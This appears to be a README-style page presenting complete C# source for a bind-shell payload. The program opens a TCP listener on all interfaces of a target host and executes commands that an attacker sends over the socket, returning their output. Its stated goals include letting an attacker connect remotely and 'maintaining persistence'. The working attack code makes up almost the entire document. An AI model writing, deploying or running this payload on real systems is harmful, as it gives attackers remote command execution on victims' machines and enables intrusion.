

## We write a program which creates a listener on the target host and allows an attacker to connect to it remotely.

- We use the TCPListener class here instead to create a listener.

- Begin the listener using the Start() method.

- Maintain persistence.

## CODE:

```csharp
using System;
using System.IO;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;
using System.Net;
using System.Net.Sockets;
using System.Diagnostics;

namespace Binding_Payload
{
    public class MainClass
    {
        public static void Main(string[] args)
        {
            int port = int.Parse(args[0]);
            // Create listener on specified port @ 0.0.0.0
            TcpListener listener = new TcpListener(IPAddress.Any, port);
            Console.WriteLine("[+] Bind Shell listening on port: " + port + "\n- Connect from attacker machine to continue");
            try
            {
                listener.Start();
            }
            // Error while starting listener(ex: unprivileged user)
            catch
            {
                return;
            }

            //Accepting data and parsing commands
            while(true)
            {
                //Accept socket connection
                using (Socket socket = listener.AcceptSocket())
                {
                    //Maintaing persistence on target after disconnecting payload
                    using (NetworkStream stream = new NetworkStream(socket))
                    {
                        //Read from stream
                        using (StreamReader rdr = new StreamReader(stream))
                        {
                            //Reading until empty line is sent by attacker
                            while (true)
                            {
                                string cmd = rdr.ReadLine();
                                
                                if (string.IsNullOrEmpty(cmd))
                                {
                                    rdr.Close();
                                    stream.Close();
                                    listener.Stop();
                                    break;
                                }

                                if (string.IsNullOrWhiteSpace(cmd))
                                    continue;

                                //Split string on spaces to parse as args using LINQ
                                string[] split = cmd.Trim().Split(' ');
                                string filename = split.First();
                                //Joining args without 1st element
                                string arg = string.Join(" ", split.Skip(1));

                                //Executing cmds from stream
                                try
                                {
                                    Process prc = new Process();
                                    //Add more options to configure
                                    prc.StartInfo = new ProcessStartInfo();
                                    prc.StartInfo.FileName = filename;
                                    prc.StartInfo.Arguments = arg;
                                    //Using diff shell to exec
                                    prc.StartInfo.UseShellExecute = false;
                                    prc.StartInfo.RedirectStandardOutput = true;
                                    prc.Start();
                                    prc.StandardOutput.BaseStream.CopyTo(stream);
                                    prc.WaitForExit();
                                }
                                catch
                                {
                                    string error = "[!] Error running command: " + cmd + "\n";
                                    byte[] errorBytes = Encoding.ASCII.GetBytes(error);
                                    stream.Write(errorBytes, 0, errorBytes.Length);
                                }
                            }
                        }
                    }
                }
            }
        }
    }
}
```

## OUTPUT:

